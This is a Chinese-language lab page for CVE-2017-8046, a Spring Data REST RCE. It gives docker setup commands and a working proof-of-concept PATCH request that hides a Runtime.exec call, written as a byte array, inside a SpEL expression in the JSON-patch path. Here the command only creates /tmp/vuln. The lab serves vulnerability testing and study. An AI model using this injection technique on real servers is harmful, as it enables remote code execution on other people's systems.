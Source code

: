 ```yaml
---
layout: post
title: "Spring Data REST PATCH请求代码执行漏洞(CVE-2017-8046)"
date: 2017-09-29 13:12:41 +0800
image: '/assets/img/'
description: 'Spring Data REST PATCH请求代码执行漏洞(CVE-2017-8046)'
main-class: 'hole'
color: '#B31917'
tags:
- Spring
- RCE
categories:
- Spring
twitter_text: 'Spring Data REST PATCH请求代码执行漏洞(CVE-2017-8046)环境'
introduction: 'Spring Data REST PATCH请求代码执行漏洞(CVE-2017-8046)环境'
---
```


### 漏洞信息

 * [CVE-2017-8046: RCE in PATCH requests in Spring Data REST](https://pivotal.io/security/cve-2017-8046)
 * [这个Spring高危漏洞，你修补了吗？--  其河@美团点评技术团队](https://mp.weixin.qq.com/s/uTiWDsPKEjTkN6z9QNLtSA)

### 获取环境:

1. 拉取镜像到本地
 ```
$ docker pull medicean/vulapps:s_spring_1
 ```

2. 启动环境
 ```
$ docker run -d -p 8080:8080 medicean/vulapps:s_spring_1
 ```
 > `-p 8080:8080` 前面的 8080 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`, 假设启动的端口号为 8080

#### PoC

1. 访问 `http://127.0.0.1:8080/`，测试服务是否启动成功
 ![](https://github.com/Medicean/VulApps/raw/master/s/spring/1/poc-1.png)

2. 利用 POST 请求添加一个数据
    ```
    POST /persons HTTP/1.1
    Host: 127.0.0.1:8080
    Content-Type: application/json
    Cache-Control: no-cache
    
    {"firstName": "VulApps", "lastName": "VulApps"}
    ```
 ![](https://github.com/Medicean/VulApps/raw/master/s/spring/1/poc-2.png)

3. 执行 PoC
    ```
    PATCH /persons/1 HTTP/1.1
    Host: 127.0.0.1:8080
    Content-Type: application/json-patch+json
    Cache-Control: no-cache
    Content-Length: 228
    
    [{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{47,117,115,114,47,98,105,110,47,116,111,117,99,104,32,47,116,109,112,47,118,117,108,110}))/lastName", "value": "vulapps-demo" }]
    ```
 ![](https://github.com/Medicean/VulApps/raw/master/s/spring/1/poc-3.png)

4. 进入容器，发现成功创建文件
 ![](https://github.com/Medicean/VulApps/raw/master/s/spring/1/poc-4.png)

### 参考链接

* [这个Spring高危漏洞，你修补了吗？--  其河@美团点评技术团队](https://mp.weixin.qq.com/s/uTiWDsPKEjTkN6z9QNLtSA)

### 改动日志

* 2017/09/29 删除原 jar 包中 mongodb 依赖
